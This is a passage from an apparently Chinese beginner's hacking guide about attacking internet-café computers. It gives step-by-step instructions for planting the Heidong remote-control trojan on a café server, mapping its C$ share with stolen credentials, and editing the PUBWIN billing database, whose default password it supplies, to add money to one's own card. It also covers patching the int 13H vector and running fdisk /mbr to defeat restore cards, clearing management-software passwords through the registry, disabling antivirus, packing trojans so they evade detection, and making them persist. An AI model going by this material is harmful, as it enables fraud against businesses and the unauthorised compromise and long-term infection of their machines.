- 第六步：

把黑洞的服务端 heidong.exe 和 RADMIN.reg 放到 C 盘里，再用 RADMIN 弄到网吧主机的 C:\WINNT\SYSTEM32 下，直接拖拽就行，如图2.48。再远程 TELNET，把注册表导入远程主机（首先要连接上对方并进入 C:\WINNT\SYSTEM32 目录），然后运行黑洞程序，好了，肉鸡到手了！

```text
regedit /s RADMIN.reg
heidong.EXE
```

现在可以使用黑洞来控制网吧的主机了。黑洞2005的功能非常强大，自己慢慢体验吧。


**第七步**，映射驱动盘。右键单击“我的电脑”，选择“映射网络驱动器”，在弹出的“映射网络驱动器”对话框的远程文件中填入“\\192.168.1.100\c$”（要映射的主机目录），如图2.51，点“完成”，输入主机的用户名和密码（在前面的扫描和攻击中我们已经获取了），成功！


**第八步**，使用桂林老兵的“数据库管理助手”打开主机网管软件计费的数据库，PUBWIN 的默认密码是 ajsgamrbg3721md，如图2.52。如果不行的话我们也可以利用“ACCESS 密码查看器”来破解数据库的密码。浏览选定的数据文件，点“查看密码”就可以获取密码了，如图2.53。接下来就是搜索找到自己的卡，然后往里任意加钱了。


## 第3章 菜鸟全面学破解

### 3.1 下载全方位破解

### 3.1.1 金山毒霸6 破解还原精灵

大家上网最怕什么？大概就是还原之类的东西吧。曾经是还原精灵显赫一时，现在是还原卡独掌天下。我们谈破解，就不能不说说这个还原精灵。网上关于还原精灵的破解方法真是五花八门，什么都有。比如用还原精灵密码读取器；又比如在 Windows 下要实现转储，可以在重启计算机时按住 SHIFT 键；或者用还原精灵清除器直接清除（这个很不安全）。但在 XP 或其它 Windows 操作系统下，还原精灵密码读取器根本就用不成，用清除器不安全（有时候直接导致计算机黑屏），按 SHIFT 也不行，我们该怎么办呢？


答案是否定的。今天我就来给大家说一个清除还原精灵的好方法：利用金山毒霸6，如图3.1。因为金山毒霸6把还原精灵当作病毒，所以我们要清除还原精灵的时候可以在线下载一个，然后安装，在安装的过程中就自动把它清除掉了。

#### 3.1.2 硬盘保护卡克星

还原卡这个东西表面看起来很坚固、牢不可摧，其实只是纸老虎。这里我介绍一个好工具——还原卡保护克星，对付还原卡那简直就是小 CASE。因为威力很大，运行此软件时作者都做了提示，如图3.2。不用管它说什么，它爱说什么就说什么吧。当然知道了，运行后如图3.3，只有三个选项，我们直接选择“仅破解保护卡”……


那小巧的鼠标轻轻一点“确定”，就解决战斗了。重新启动电脑，之后你们再在电脑里保存什么程序的话，无论机器重启几次都不用怕了，因为还原卡已经被我们破解了！


图3.3

#### 3.1.3 还原卡密码读取器

硬盘保护卡也称还原卡，可以保护硬盘数据不被恶意修改或删除，在网吧随处可见。我们可以使用工具，也可以借助于 BIOS 地址区写入代码法破解。今天我再介绍一款工具——“还原卡密码读取器”。我们首先来见见它的“庐山真面目”，如图3.4。“读取扇区”“写入扇区”“清除扇区”等我们不用管它，因为我们需要的是它读取还原卡密码的功能！目前用得最多的也就是小哨兵和华苏这两种还原卡，所以软件也设置了这个，直接点“读取小哨兵/华苏密码”，就可以直接显示出密码！如图3.5。


图3.4

由于硬盘保护卡设计上的缺陷，我们可以通过 BIOS 地址区写入代码实现破解。对于硬盘保护卡来说，只要恢复 int 13H 的 BIOS 级中断向量就可以破解。找到 int 13H 的原始 BIOS 中断向量值，填入中断向量表，这样修改以后，其它对 int 13H 的限制通常就被绕过了。


图3.5

##### 手工运行 Debug（在纯 DOS 模式下）

```text
debug
-a100,0
```

```text
- xor ax, ax（注释：前面加上功能号以选择 int 13H 内部的流程，避免进入其它不经过原始入口的流程）
- int 13H
- int 3H
```

然后按下“t”键，再按下回车键，不断重复，直到显示的地址型为“f000:xxxx”这一地址，按“Q”键后再按回车退出！这里假设第一个 f000:xxxx 就是要找的入口。实际上可能在第2、3、4处出现，要自己判断一下，通常认为就是第一个，在 0:0:4ch 处填入这个地址就可以了。

#### 3.1.4 禁止使用“我的电脑”

在网吧辛辛苦苦下载完一个文件却发现桌面上找不到“我的电脑”，其实这是“万象幻境网吧管理”“美萍安全卫士”在搞鬼。不过这些管理软件往往存在非常多的漏洞，下面我就介绍介绍我多年来泡吧的经验。

- 1. **地址栏**  
在地址栏输入“我的电脑”，一下子就进去了（有些地方管理员改了注册表，此计不通）。不要高兴太早，进去后点右键是看不到菜单的。这时把右键按住，再按左键，菜单就出来了。

- 2. **下载**  
随便下载个文件，“下载后关闭此窗口”前不要打勾，下载后点“打开文件夹”就进去了。

- 3. **开机结束进程**  
开机后屏幕底色一变蓝就按 Ctrl+Alt+Del，找到 Smenu 进程把它结束掉，记住一共要结束两次，就搞定了。

- 4. **利用 IE5.0**  
如果是 IE5.0，在图片上停留1、2秒会出现一个工具栏，点上面的文件夹标志，就可以打开“My Picture”。

- 5. **任务计划**  
如果状态栏上有“任务计划”，点击“打开”→“添加已计划的任务”→“下一步”→“浏览（选择你要执行的程序）”→“打开”→“当启动计算机时”→“下一步”→“完成”。

- 6. **注册表**  
一般在网吧机子的桌面上很难打开注册表（除非有“运行”或“我的电脑”）。我们可利用 .reg 文件，用记事本编个文件，内容如下：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Mpsoft\Smenu]
"exitpassword"=""
"setuppassword"=""
"quitpassword"=""
```

保存为 unlock.reg，把这个文件放入你邮箱的附件中，到目标机上下载附件，选“在文件当前打开”，运行后注销，密码就为空了。

#### 3.1.5 解除鼠标右键限制

大家在使用 StreamBox 上网下载电影时是不是碰到过这样的情况：当你在某个电影网站看到精彩大片时，按鼠标右键就弹出个窗口，上面写着“版权所有、禁止使用右键”之类的话；或者一点鼠标右键就出现添加到收藏夹的窗口；再者就是将鼠标右键屏蔽掉，根本没有反应。碰到这样的情况怎么办呢？

第一种情况：出现版权信息类提示。在页面目标上按下鼠标右键，弹出限制窗口，这时不要松开右键。将鼠标指针移到窗口的“确定”按钮上，同时按下左键。松开鼠标左键，限制窗口就被关掉了，再将鼠标移到目标上松开鼠标右键，这样就 OK 了！

第二种情况：出现“添加到收藏夹”。破解的方法也不难，在目标上点鼠标右键，出现添加到收藏夹的窗口，不要松开右键，也不要移动鼠标，而是使用键盘的 TAB 键，移动到取消按钮上，按下空格键，这时窗口就被解决了，松开右键，右键就这样恢复了！另外，还可以用鼠标左键单击选中文件，同时按“SHIFT+F10”，即可显示久违的右键菜单。

#### 3.1.6 解除下载限制

- **方法1：** 进入注册表“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3\1803”，将 DWORD 的值改为 000000。
- **方法2：** 在 IE 状态栏的右下角有个小地球，点击后出现“IE 安全”选项卡，点击“自定义级别”，把“下载”改成“启用”即可；但你可能没那么好运，看不到小地球。没关系，把“C:\Windows\System”下的 inetcpl.cpl 改为 inetcpl.cpl，然后即…可打开。

**方法3：** 如果是在美萍下，把注册表 `HKEY_LOCAL_MACHINE\Software\Mpsoft\Smenu\limit` 下的 `downlimit` 字符串值改为 0 即可。如果你不满足打开的 IE 窗口数目，把 `iecount` 的字符串值改为你要打开的数目。

#### 3.1.7 解开 F8 屏蔽与解除右键屏蔽

打开 IE，在页面上点右键，点“查看源文件”——“文件”——“打开”，选择 `C:\Msdos.sys`，找到 `bootkey=0`，改为 1 即可。

在注册表中，`HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer` 中 `NoViewContextMenu` 和 `NoTrayContextMenu` 的键值改为 0 即可。

### 3.2 具体设置破解

#### 3.2.1 原理剖析

由于网吧上网人群比较复杂，为了便于管理和系统的安全，网管基本都为网吧的机子装上了网管软件，对网民的使用权限进行了限制，以防止网吧被人入侵和破解。可是我们这些在网吧上网的网民，尤其是像我这种自称为网吧 HACKER 的人，可不想在网管软件的压迫下生活，我们追求上网的自由。怎么办？拿起手中的武器来对付它吧，解除这些所谓的限制吧！

现在的网管软件多如牛毛，比较常见的有“美萍安全卫士”、“网吧管理专家”、“万象网络妙管家”、“万竹”、“PUBWIN4”等等。这些网管软件的功能大都差不多，限制的方式原理也大体相同，只要掌握破解的原理，破解起来也比较简单！网吧对我们上网的限制会有很多，不过总结起来也就那么十几种。

- 1. 禁止使用硬盘：有的网吧只是屏蔽了硬盘，有的就干脆做成了无盘的网吧。
- 2. 禁止运行程序：一般的菜鸟要破解网吧，由于技术比较菜，往往会用到许多网上大侠们编译好的工具。而限制了程序的运行，网吧也就相对安全了，至少也增加了破解的难度。
- 3. 禁止使用右键：这主要是限制访问快捷菜单。一般地，鼠标右击一个图标，会打开相关的快捷菜单，如属性等，这些功能是网管们不希望我们使用的，于是就把右键给屏蔽掉了。
- 4. 禁止下载：网管们认为只要限制了下载，那么许多恶意程序、破解软件就没有办法在网吧使用了。
- 5. 禁止使用注册表编辑器：注册表可是 Windows 的一个命脉，稍微懂得一点计算机基础的人就会知道注册表对 Windows 的重要性。而且网管们做出的许多限制也是在注册表中动的手脚。如果让网民任意使用注册表编辑器的话，那么系统的安全性可想而知，在注册表中修改几个关键键值就能让 Windows 系统崩溃，网管们不禁止使用注册表编辑器才怪呢！
- 6. 禁止使用 IE 的 INTERNET 选项：利用 IE 的 INTERNET 选项我们可以做很多事，许多破解网吧限制的方法就会用到它。
- 7. 禁止在浏览器中输入 `c:` 或 `d:` 来访问系统。
- 8. 隐藏一些重要的文件（文件夹）及一些菜单选项：例如，隐藏开始菜单、隐藏系统属性项目、隐藏控制面板。
- 9. 禁止使用一些系统自带的“危险”程序：例如 CMD，这个命令提示符可是入侵者们常用的东东。一般命令行下的小程序（扫描、嗅探、攻击、溢出等）都会用到它。黑客、入侵者的最爱，却是网管们的最恨啊！
- 10. 禁止删除文件：一些系统的重要文件，是要加以保护的。

哈哈，洋洋洒洒地说了有 10 条。唉，小菜们的日子不好过啊。那么多的限制，看到就烦。真想用根绳子将网管们都勒死，不过这样也太极端了吧。下面就讲一下对常用限制的破解，小菜们都等不及了吧？好好好，我也不卖关子了，开始我们的破解之旅吧！

#### 3.2.2 破解注册表封锁

限制那么多，为什么先讲注册表的解锁呢？因为网吧管理软件在许多功能上的禁止使用，包括禁止使用注册表编辑器，都是通过对注册表的修改来达到目的的。因此我们要先将注册表解锁，不然的话我们以后讲的许多限制破解就没有办法进行了。说了那么多，有的读者或许还不知道注册表为何物呢。好吧，我们先给大家补充一点有关注册表的相关知识。

##### 注册表

注册表（regedit）是 Windows 9x/NT/Me/2000/XP 中一个巨大的核心数据库，注册表中存放着各种参数，直接控制着 Windows 的启动、硬件驱动程序的加载以及一些 Windows 应用程序的运行，从而在整个系统中起着核心作用。主要包括以下几点：

- 1. 软硬件的有关配置信息。注册表保存有应用程序和资源管理器外壳的初始条件、首选项和卸载数据。
- 2. 计算机整个系统的设置和各种许可，文件扩展名与应用程序的关联、硬件部件的描述、状态和属性。
- 3. 性能记录和其它底层的系统状态信息，以及其他数据。

注册表编辑器是 Windows 系统自带的用于编辑注册表的一个小工具。打开注册表编辑器的方法：点击“开始”——“运行”，打开“运行”程序输入框，输入“regedit”回车即可打开注册表编辑器。

好了，看看如何加解锁注册表吧。展开注册表到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 下，新建一个名为 `DisableRegistryTools` 的 DWORD 值，并将其值改为“1”，即可禁止使用注册表编辑器 regedit.exe。学会了加锁，我再教大家解锁：用记事本新建一个文件，内容如下：

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

然后把扩展名 `txt` 改成 `reg`，比如叫 `unlock.reg`，只要运行它就解锁注册表了。

以上的方法是针对 Win98，“REGEDIT4”一定要大写，并且“T4”之间不可以有空格，后面还要空一行。如果是 2000/XP 系统的话，就需要将“REGEDIT4”改为“Registry Editor Version 5.00”。

如果你嫌这个方法复杂（要输入那么多字符，还要注意大小写，一不小心就会弄错），为了照顾菜鸟，我向大家推荐一款小工具——“unlock.exe”，傻瓜级的东西，只须鼠标轻轻点击就可以轻松完成对注册表的加锁和解锁。运行这个软件后，点击“UNLOCKREG”就可以解锁注册表；点击“LOCKREG”就将注册表加锁了；想退出程序的话，点击“QUITSYS”。怎么样？够简单吧！

#### 3.2.3 破解硬盘封锁

硬盘的封锁，对于网吧上网一族来说无异于戴着脚镣来跳舞，实在是不爽。不过要想突破网吧管理软件的限制，访问硬盘资源也不是什么难事，不相信啊，LETS GO!

**方法一：** 在 IE 的窗口中点击菜单栏“查看”——“资源管理器栏”——“文件夹”，这时主窗口左侧出现资源管理器窗口，内有“我的电脑”。这时候你就可以一层层地展开，从而无限制地访问硬盘资源了。

**方法二：** 点击 IE 菜单栏“文件”——“另存为”，在弹出的对话框中右键单击任一文件夹，选择菜单中的“资源管理器”。这样一来，硬盘的内容也显示出来了。

**方法三：** 打开 QQ，随便选一个好友，点传送文件，就会出现一个文件选择的小窗口，这个小窗口就是一个“微型资源管理器”。

**方法四：** 进入自己的免费邮箱，这个大家都会有吧，如果没有的话，赶紧去网易申请一个。选择“写邮件”，再点击“附件”——“浏览”，以前总是用这个附件功能给同学、亲友发文件，现在我们就可以通过这一功能来浏览本机的硬盘资源。

**方法五：** 打开 QQ，然后点击面板上的“TT 浏览器”图标启动 TT 浏览器。一般的网管软件所做的设置只对 IE 管用，但对其它浏览器一点儿用都没有。只需要在 TT 浏览器地址栏输入“c:”，回车后硬盘内容就显示出来了。

**方法六：** 可以在 WINRAR“文件”菜单中的“更改驱动器”进入硬盘。也可以右键单击一个文件，选“打开方式”，在“打开方式”对话框中选择“浏览”按钮，就可以浏览硬盘了。

#### 3.2.4 显示启动菜单

为了防止网民使用安全模式来免费上网，网管往往会将启动菜单屏蔽，我们可以通过修改 `MSDOS.SYS` 显示被屏蔽的启动菜单。说到安全模式免费上网，不得不提及一下：Windows 提供了好几种登录模式，一般用的是正常登录模式，这样系统就会加载网管软件和其它一些服务程序。不过，如果我们用安全模式登录的话，系统只会加载一些系统必需的程序，而一些不是必需的如网管软件等就会被拒之门外。这样一来，就轻松地绕过了网管软件的限制，达到了免费上网的目的。好了，扯远了，下面继续看显示启动菜单的方法。

我们分三步来完成：

- 第一，显示所有文件。在 Windows 状态下，依次点击“开始”——“设置”——“文件夹选项”——“查看”，选择“显示所有文件”。
- 第二，把 `C:\msdos.sys` 文件的只读和隐藏属性去掉。
- 第三，用记事本打开 `msdos.sys`，把“BootKeys=0”改为 1。好了，现在将 `msdos.sys` 存盘，退出就可以啦。

#### 3.2.5 显示隐藏文件（文件夹）

有些网管为了系统安全，会把一些文件（文件夹）隐藏起来，不过这些文件（文件夹）对我们网吧黑客来说可能是相当重要的，有时我们的破解也是基于它们的，如管理员密码、系统安装程序信息等。好了，现在就解开这些隐藏文件的神秘面纱吧。

其实，利用前面讲的“显示启动菜单”中的第一步，我们就可以“显示所有文件”了。不过，如果文件属性值在注册表里被修改了，即使像上面所讲的在“文件夹选项”里设置为显示所有文件，被隐藏的文件也不会显示。好吧，既然网管设置这么 BT，我们也没有理由含糊，拿出注册表编辑器，将 Windows 恢复成原来的设置吧。进入注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden`，把主键 `SHOWALL` 的值改为 1，同时还要把主键 `NOHIDDEN` 和 `NOHIDORSYS` 下的键 `CheckedValue` 键值改为 0。

好了，这下隐藏的文件（文件夹）显示出来了吧，那些有用的东东都呈现在我们面前了。怎么样？有种成功的兴奋和喜悦感吧。别高兴得太早，好东西还在后头。这才刚刚开始，嘿嘿嘿\~\~\~

#### 3.2.6 显示“开始”菜单的菜单项

为了安全，网管们将“开始”菜单屏蔽，或者将其中一些如“设置”、“运行”的菜单项隐藏。这样一来，在进行一些非法活动时就会遇到不少麻烦和困难。没关系，让我们还“开始”菜单本来面目。

其实我们可以自己设定“开始”菜单的各菜单项，点击“开始”——“设置”——“任务栏和开始菜单”，就可以打开“任务栏和开始菜单属性”对话框。

在“常规”标签下，可以设置一般选项。在“高级”标签中我们就可以自定义“开始”菜单，添加或删除“开始”菜单的菜单项。当然了，如果网管们在注册表中做了手脚，我们也不能用上面的方法了，还是得修改注册表。打开主键 `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer`，把下列键值改为 0 即可恢复被限制显示的菜单项：

- 1. `NOSETTASKBAR` = 0，显示“开始”设置中的“任务栏和开始菜单”
- 2. `NOFIND` = 0，显示“开始”设置中“查找”
- 3. `NORUN` = 0，显示“开始”设置中“运行”
- 4. `NOCLOSE` = 0，显示“开始”设置中“关闭系统”
- 5. `NOSETFOLDERS` = 0，显示“开始”设置中“打印机和控制面板”
- 6. 显示“关闭系统”中的“重新启动计算机并切换到 MS-DOS 方式”：进入注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\WinOldApp`，把主键 `NOREALMODE` 的值改为 0。

#### 3.2.7 显示桌面图标

一次去某家网吧上网，打开桌面后发现熟悉的“我的电脑”、“我的文档”、“网上邻居”图标不见了。看着孤零零的“回收站”，心里感觉就是两个字：不爽！不过，我们照样可以把它搞定。运行注册表编辑器，打开主键 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer`，把键 `NODESKTOP` 删除或把键值改为 0，熟悉的桌面又出现了。

#### 3.2.8 显示控制面板

控制面板里面有许多关于系统设置的程序。例如“管理工具”、“用户和密码”、“INTERNET 选项”、“添加/删除程序”、“网络和拨号连接”、“文件夹选项”、“系统属性”等等。时常在网吧穿梭的朋友们应该知道网管对“控制面板”是多么重视。下面我就让控制面板现身！

运行注册表编辑器，打开主键 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer`，把键 `NOSETFOLDERS` 删除或者将键值改为 0。

#### 3.2.9 打开 CMD

大家对黑漆漆的 CMD 窗口一定十分熟悉吧，它让人想起了遥远的 DOS 时代。我自己虽然不是一个十分怀旧的人，但这个 CMD 对我们却十分重要。

每当微软出新漏洞，过不了几天就会有网络上的牛人编写出最新的漏洞利用溢出程序，而这程序一般为命令行下的工具，我们要想利用它就必须要打开这个 CMD 窗口啊。还有微软 TELNET 远程登录管理协议也是在命令行下工作的。

好了，下面介绍 phantom517 曾经传授给我的一个突破网吧限制打开 CMD 的方法。首先打开任一网页，点击“查看”——“源文件”，在源文件窗口点击“文件”——“新建”，在文本文件中输入 `cmd`（在 Win98 下为 `command`），然后另存为 `cmd.txt`，我把它放到 C 盘下。然后到任意网站下载个 RAR 文件；下载完后，打开，返回上级目录，打开 `c:\`，找到我们保存的 `cmd.txt`。RAR 文件允许我们改文件后缀，我们将 `cmd.txt` 变为批处理文件，就可以调用 CMD 了。嘿嘿，现在可以将 `cmd.txt` 改名为 `cmd.bat`，接着双击执行就可以了。

不过我们在用 CMD 时，要进入某一个目录总是要用 `CD` 命令来切换，十分麻烦。有没有方法可以在 CMD 下快速进入任意目录呢？当然有！

第一步：打开注册表编辑器，找到主键 `HKEY_CLASSES_ROOT\FOLDER\Shell`，并在其下新建一项并命名为“CommandPrompt”，再在右边窗口中将默认值改为“随意进入CMD”（或者改成其它你想改的名称）。

第二步：在刚才建的 `CommandPrompt` 项下再新建一项并命名为“command”，并将右边窗口默认值改为 `cmd.exe /k cd %1`（注意：如果是 WIN9X 用户，请将 `cmd.exe` 替换为 `command.com`）。

改完后关闭注册表编辑器，无需重启机器。此时，你右键点击文件夹或盘符，就可以在菜单中选择“随意进入CMD”了。不管当前目录有多深，在弹出的 CMD 窗口里显示的即为当前目录。是不是很方便啊，轻松实现了 CMD 随意进入任意目录。

#### 3.2.10 软驱

在网吧上网，机器往往没有配备软驱，这对网吧上网一族是多么不方便啊。尤其是我们这些网吧 HACKER，手头上都会有许多工具，如果每次都要去网上下载，不仅浪费时间、精力，而且管理起来也不方便。

以前大家或许会用邮件的方式来存储我们的工具吧：先申请几个免费邮箱，然后再将我们的东西以附件形式保存在邮件里，用的时候就打开邮箱下载。这种方法确实可以用来存储黑软，不过那么多工具也不利于管理。腾讯从 QQ2004 就提供了网络硬盘功能，每个用户有 16MB 免费空间，不仅方便而且还支持多级目录管理，不过就是空间太小了，碰到很大的工具怎么办？

下面隆重请出今天的主角——蜂盘。蜂盘其实就是一款网络硬盘。不过，蜂盘和 Windows 操作系统完全融合，所以您使用蜂盘就像使用本地硬盘一样简单、方便、快捷，而且每个用户可以有 100MB 的空间（用一个邮箱可以申请一个，多申请几个邮箱，你就有好几百 MB 空间了）。它是一个基于 Windows 资源管理器访问的新型网络存储工具，具有强大的数据存储、文件共享、数据备份、文件传递、获取资源功能。我们先到蜂盘主页（http://ih.sisun.cn）申请个蜂盘号码，然后再下载最新的蜂盘客户端安装程序。

安装好后，在“我的电脑”里你会发现多了一个蜂盘图标。双击打开，输入号码和密码后就登录自己的蜂盘了，共有 4 个文件夹——“我的文件”、“我的共享”、“我的蜂友”、“聚宝箱”。一般我们只用“我的文件”，在里面我们可以像在本地硬盘一样存储文件，操作、管理极其方便。

#### 3.2.11 几款网吧解限工具

上面讲了好多网吧解除限制的方法，操作起来有的比较复杂。我们菜鸟喜欢的是比较实用的工具，来达到轻松解除网吧限制之目的。哈哈，工具当然有啦，这里我就介绍两个比较实用而且功能强大的网吧软件——精锐网吧辅助工具 V5.0 和网吧黑手 V1.01。

精锐网吧辅助工具是精锐联盟开发的一款功能十分强大的网吧实用工具。现在我介绍一下它的一个比较新的版本：V5.0 测试版。由于这款工具的功能十分多，我们不可能一一介绍，就看下它的网吧解限功能选项吧。

打开“限制恢复”标签，上面有许多限制恢复项：解除下载限制、恢复隐藏磁盘、恢复桌面右键、恢复 INTERNET 选项、安全自定义设置、恢复文件夹选项、恢复开始菜单、解锁注册表、允许修改主页。而且还可以清除 PUBWIN 的限制、删除文件，还集成星号密码查看器和还原精灵/还原卡破解功能。

“控制面板”标签里，我们可以毫无限制地使用控制面板的各个功能。软件里所列选项十分全面。

“系统工具”标签里有许多系统自带的功能选项：系统控制台、组件服务、系统配置编辑器、任务管理器、事件查看器、资源管理器、程序管理器、注册表编辑器、计算器、SQL SERVER 工具、木马绑定程序、创建共享文件夹、记事本……脚本、CMD、控制面板、运行。此外，我们还可以格式化硬盘、创建 Windows 管理员，还可以随意进入系统的目录，如图 3.19。


图 3.19

再来介绍另一款工具——网吧黑手，这也是一款比较好的工具，功能比精锐少点，但是在解除限制上它的功能丝毫不逊。看看程序的主界面，如图 3.20。那黑黑的五指，还真有点吓人，让人想起了武林中的一种比较厉害的武功：黑砂掌。嘿嘿，废话就不多讲了，看看怎么使用它吧。


图 3.20

运行、注销、命令提示符，解除限制功能直接点击即可。系统工具选项点击后打开系统工具窗口，如图 3.21。里面有系统控制台、组件服务、系统配置编辑器、任务管理器、事件查看器、资源管理器、程序管理器、注册表编辑器、计算器、SQL SERVER 工具、木马绑定程序、创建共享文件夹等等，基本的东西也挺齐全。超级控制面板里的选项更是多，如图 3.22。


图 3.21

上面提到的两款工具你必须亲自去用，才能体会它强大的功能。好了，赶快去实践吧！

## 3.3 其它设置破解

在前一节中我们提及了许许多多有关网吧具体设置的破解，在网吧中网管对我们的限制也基本上不存在了。在这一节“其它设置破解”中，我想讲一下有关杀毒软件和还原精灵/还原卡的问题。这些东西在我们进行网吧破解的过程中对我们的限制非常大。在没有任何限制或者限制很少的网吧，破解往往得心应手，可是一遇到杀毒软件和还原精灵/还原卡，真的有那么可怕吗？答案是否定的。早在第一章中对网吧环境分析我们就有所提及杀毒软件和还原精灵/还原卡，不过只是稍微提了一下，没有做深入讨论。好了，在这一节，我们就详细地讲一下对杀毒软件和还原精灵/还原卡的破解。


图 3.22

首先我们讲一下杀毒软件。网管给网吧装上各种各样的杀毒软件，有诺顿、瑞星、金山等等，生怕有些不安分的网民给自己的系统带来病毒，也怕网吧黑客在网吧搞破坏。这样一来啊，他的系统倒是安全了一些，不过可害苦我们这些网吧菜鸟们了。由于要学习黑客技术，免不了要和后门、木马、各种病毒、溢出程序打交道，不过这些东东正是被那些杀毒软件所深恶痛绝的啊，它们可不会手下留情，是会一见必杀的。这样一来，当小菜们从网上 DOWN 下来的木马或后门可能还未解包，就会被那些杀毒软件们给 KILL 了。小菜们想学习技术就有点为难了，没办法实践。

郁闷！！！！因为杀毒软件太多，上文也已提及了好几种，我们不可能遇到一次需要破解好几个杀毒软件的情况吧。下面我就以 Symantec Antivirus 企业版为例，来讲一下破解的思路。


图 3.23

- **方法一：**可以将杀毒软件卸载，这样可以治标治本。这方面的软件也挺多的，卸载精灵就是一个不错软件，用起来挺简单的，大家可以先去网上下载安装。
- **方法二：**禁用。如果大家嫌上面的方法太麻烦的话，可以用此方法。

首先说一下，该软件在开机后自动将其在“任务栏”的图标隐藏。没关系！执行“开始”——“程序”——“Symantec Client Security”——“Symantec Antivirus 客户端”，如图 3.23，打开 Symantec Antivirus 企业版的主程序界面。再点击“配置”——“文件系统实时防护”，看到没有，该窗口有“启用文件系统实时防护”选项，将其前面的勾去掉，如图 3.24。

OK，不过该方法有一个弊端，那就是在大约 30 分钟后程序又死灰复燃了。怎么办？继续前面的窗口，将“启用文件系统实时防护”选项前面的勾打上。


图 3.24


图 3.25

再点击其后面的“高级（A）”，看吧，打开了“文件系统高级选项”窗口，注意第二项“自动启用”，就是它搞的鬼，将其前面的勾去掉吧，现在已经完全禁用啦！如图 3.25。

- **方法三：**利用“计算机管理”中的“服务和应用程序管理”来将杀毒软件禁用，或者干脆停止它的服务。

打开“计算机管理”窗口，选“服务和应用程序”——“服务”，系统就打开了服务程序选项，接下来找到 Symantec Antivirus，将它禁用，如图 3.26。

上面解决了一些问题，不过我们要想在网吧挂马怎么办？将杀毒软件禁用还可以，要是将其卸载就有点危险。网管要是发现自己安装的杀毒软件被人给卸载了，他会怎么想？那么我们的小马就要遭殃了，好可怕啊。


图 3.26

以弄个免杀的木马去网吧挂。木马的免杀技术不是本书的重点，有兴趣的读者可以参考一下相关文章。不过一般这对新手们来说有不小的难度，我们可以去网上找找高手们写的免杀木马来用，或者去找些市面上不常见的猛壳给小马加上。网上也有不少的木马免杀器，你也可以拿来试试。

这里我向大家推荐一款工具：`PolyBox.exe`，可以免杀一些木马程序，使用方法和加壳软件类似，下面介绍一下它的特性。

1. 不是单单从 PE 结构上修改特征码免杀，而是类似加壳软件将程序加壳（这种加壳就是免杀器的核心）。
2. 免杀器同样也是一款加壳压缩软件，加壳后可以将原来程序的体积压缩。
3. 为了防止被杀毒软件更新病毒库和解密免杀器的压缩算法，加壳后的软件可多次使用别的加壳软件进行加壳。防御解密算法的方法是使用了不可逆转换的 Blowfish 算法，当然可以自己设置加密密钥。
4. 加壳软件本身使用了 PESpin 加密保护壳系列的 SDK，所以使用 PESpin 来进行二次程序自变形和代码加密效果最理想。
5. 程序兼容 VC、Delphi、VB 等编译的木马程序（加壳前请确保您的程序没有加壳）。

好了，下面我就运行下主程序，界面如图 3.27，点击“打开加壳文件”，选择要加壳的小马，就可以使小马免杀了。如果是注册用户，可以使用“产生随机密钥”功能，来改变加密算法，不过说实话我们用固定的加密算法就可以了。


图 3.27

下面讲一下还原精灵的破解。开始之前，谈谈还原精灵的版本。还原精灵迄今为止已经有了很多版本，我见过的有 5.0、6.1 和 2002 等。为何要先来了解软件的版本呢？其实这也是没有办法的事情，因为从破解的角度来说，不同的版本会有不同的方法，一些破解程序仅对某一版本有效，而对其它版本可能就无能为力。如果你搞不清楚版本就瞎破解，可能会处处碰壁。

对于一些老版本的还原精灵我们可以手工破解，就是用 16 进制编辑工具 WINHEX 来获取其密码，因为它的密码是在内存中明文存放比较的，不过对付目前新版本的还原精灵已经不太适用了。


图 3.28

这里我向大家推荐几款工具来破解还原精灵，第一个就是“精锐还原精灵密码读取器”，如图 3.28。

使用很简单，当你读不出密码时候，把物理硬盘的框换成 1 或者是 0、2 之类的，一般情况下默认就能把密码读出来。

第二个工具就是“还原精灵移除器（逆风修改版）”，如图 3.29。

运行后先点“接受”，在密码验证框输入任意密码或不输入密码，即可将还原精灵彻底清除。


图 3.29

下面我再介绍第三个工具——“自动破解还原精灵最终版”。由于还原精灵会截取系统的底层功能调用，在硬盘的主引导区留下自己的痕迹。而硬盘的主引导区存放的就是系统的主引导信息、分区信息。一般说来，如果我们能先于还原精灵占有硬盘的主引导扇区（MBR），那么我们就可以对硬盘拥有最大的管理权限。换句话说，还原精灵已经被我们“干掉”了。依据上述原理，可以用

```bash
fdisk /mbr
```

命令重写主引导扇区，然后重新启动计算机，这样还原精灵就没有了。

最后再讲讲还原精灵的基本用法吧，可别获取了密码却不会用。下面我以还原精灵 5.0 为例简单介绍一下：右键单击还原精灵在系统托盘的图标，弹出的快捷菜单如图 3.30，共有四个命令，一般我们就用到两个——“还原精灵命令”和“设置参数”，其他两个一般我们不用理会。


图 3.30


图 3.31

在“设置参数”窗口我们可以设置还原方式，还有时间设置和空间设置，如图 3.31。一般我们要用到“资料转储”，不过建议不要在这里更改，防止被网管发现。

一般我们在网吧安装程序或者下马，机器重启就会一切还原。这时我们就需要做转储，种好小马后在“还原精灵命令”列表中选“转储”项，如图 3.32。点击“设置命令”按钮，弹出“检查管理员密码”对话框，如图 3.33，输入我们破解出的密码，点确定。还原参数要保持为“自动还原”不变，这样重启后小马就在机器里扎根了，并且不容易被查获哦，因为我们利用还原精灵来保护我们的马儿了。


图 3.32


图 3.33

### 3.4 菜鸟网吧破解实例

这天同学拉我去泡吧，本来并不想去的，但是却又不好意思拒绝对方的好意，只好勉强答应了。这次去的是新开的一家网吧，四周看了看，环境还算不错，就是不知道网速如何？不过，话又说回来了，既来之则安之。

开机后发现是 Windows XP + PUBWIN 4.3，第一件事当然是登录 QQ，却发现 QQ 上一个网友都没在线，好郁闷哦！没有事情干，索性来看看这家网吧的网络安全状况好了。


图 3.34

